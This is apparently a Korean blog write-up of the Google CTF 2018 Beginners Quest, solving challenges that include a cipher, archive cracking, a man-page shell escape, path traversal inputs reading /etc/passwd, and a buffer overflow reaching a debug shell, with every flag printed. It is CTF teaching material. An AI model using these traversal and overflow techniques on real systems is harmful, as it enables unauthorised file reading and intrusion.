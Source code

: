 ```yaml
---
layout: post
title: "[Google CTF 2018] Beginners Quest Write-up"
image: /img/google_ctf_2018.JPG
tags: [CTF, write-up, pwnable, misc]
---
```


<style>
.effect {
      display: inline-block;
      box-shadow: 0px 0px 20px -5px rgba(0, 0, 0, 0.8);
}
</style>

## 요약
`misc` `pwnable`

---
### LETTER (misc)
<img src="/img/google_letter.JPG" class="effect">

PDF 파일이다. text와 배경색이 검정색으로 되어있어 글씨가 보이지 않지만 드래그 해서 복사하면 값을 알 수 있다.

CTF{ICanReadDis}
<br><br><br>

### OCR IS COOL! (misc)
<img src="/img/google_ocr1.png" class="effect">

<img src="/img/google_ocr2.JPG" class="effect">

이미지 파일이 주어지는데 메일의 내용 중 VMY{...} 가 플래그 형식과 비슷하여 Caesar 복호화를 했더니 플래그가 나왔다.

VMY{vtxltkvbiaxkbltlnulmbmnmbhgvbiaxk} &rarr; CTF{caesarcipherisasubstitutioncipher}
<br><br><br>

### SECURITY BY OBSCURITY (misc)
첨부파일을 받아보면 zip 으로 압축되어 있다. unzip 으로 압축을 여러번 풀면 또 다른 방식으로 압축되어 있다. `zip`, `unzip`, `7z`, `bzip2`, `gunzip` 순서로 압축을 해제하면 마지막으로 패스워드가 걸린 zip 파일이 된다.

advanced ZIP password Recovery 등의 프로그램을 이용하면 패스워드를 알아낼 수 있다. 알아낸 패스워드는 "asdf" 이다.

CTF{CompressionIsNotEncryption}
<br><br><br>

### FLOPPY (misc)
<img src="/img/google_floppy.JPG" class="effect">

<img src="/img/google_floppy_.JPG" class="effect">

ico 파일을 hex editor 로 열어보면 압축 파일이 숨겨져 있는 것을 확인할 수 있다.

CTF{qeY80sU6Ktko8BJW}
<br><br><br>

### MOAR (pwn)

> nc moar.ctfcompetition.com 1337

접속하면 socat 의 man 페이지가 뜬다.

<img src="/img/google_moar.JPG" class="effect">

`![cmd]` 를 이용하여 쉘 명령어를 실행시킬 수 있다.

CTF{SOmething-CATastr0phic}
<br><br><br>

### ADMIN UI (pwn-re)

> nc mngmnt-iface.ctfcompetition.com 1337

```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
```
1번 메뉴를 선택하면 패스워드를 입력해야 한다.

```
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../etc/passwd
(생략)
user:x:1337:1337::/home/user:
```
2번 메뉴를 선택하면 patchnotes 를 읽을 수 있는데 예를 들어서 "Version0.3" 을 입력하면 "Version0.3" 파일을 읽어서 출력해준다.
이를 이용해서 `"../../../etc/passwd"` 를 입력하면 사용자 정보를 확인할 수 있다.


```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../home/user/flag
CTF{I_luv_buggy_sOFtware}
```
user 라는 사용자명을 확인했으면 user의 홈 디렉토리에서 플래그를 읽는다.

CTF{I_luv_buggy_sOFtware}
<br><br><br>

### ADMIN UI 2 (pwn-re)

2번 메뉴 선택 후, `"../../../proc/self/cmdline"` 을 입력하면 "./main" 을 확인할 수 있다. 이게 실행 파일 이름이다.

다시 2번 메뉴 선택 후, "../main" 을 입력하면 실행 파일을 추출할 수 있다.

<img src="/img/google_adminui2.JPG" class="effect">

<img src="/img/google_adminui2_.JPG" class="effect">

분석해보면 1번 메뉴 선택시 입력해야 하는 첫 번째 패스워드는 ADMIN UI 에서 읽었던 flag 값이고, 두 번째 패스워드는 길이가 35인 값 아무거나 통과된다.
하지만 플래그를 알아야되므로 좀 더 살펴보면, FLAG 라는 전역 변수에 35개의 값이 있고, 0xC7 이랑 xor 하는 루틴이 보인다.

> FLAG = [0x84, 0x93, 0x81, 0xbc, 0x93, 0xb0, 0xa8, 0x98, 0x97, 0xa6, 0xb4, 0x94, 0xb0, 0xa8, 0xb5, 0x83, 0xbd, 0x98, 0x85, 0xa2, 0xb3, 0xb3, 0xa2, 0xb5, 0x98, 0xb3, 0xaf, 0xf3, 0xa9, 0x98, 0xf6, 0x98, 0xac, 0xf8, 0xba]

xor 연산을 해보면
CTF{Two_PasSworDz_Better_th4n_1_k?}
<br><br><br>

### ADMIN UI 3 (pwn-re)

두 개의 패스워드를 통과하면 몇 가지 커맨드를 실행시켜주는 루틴으로 들어간다.

<img src="/img/google_adminui3_shell.JPG" class="effect">

<img src="/img/google_adminui3_system.JPG" class="effect">

quit, version, shell, echo, debug 명령어를 사용할 수 있는데, 이 중에서 shell 명령어를 입력했을 때 shell_enabled 가 1이면 debug_shell()을 호출하고, debug_shell() 에서는 system("/bin/sh") 를 호출한다.

<img src="/img/google_adminui3.JPG" class="effect">

<img src="/img/google_adminui3_.JPG" class="effect">

명령어를 입력받을 때 길이 검사를 하지 않아 `BOF` 취약점이 발생하기 때문에 debug_shell() 함수의 주소를 스프레이해서 return address 를 덮으면 쉘을 획득할 수 있다.

```
Unknown command ''BAA'
> $ quit
Bye!
$ ls
an0th3r_fl44444g_yo
flag
main
patchnotes
$ cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
```

CTF{c0d3ExEc?W411_pL4y3d}
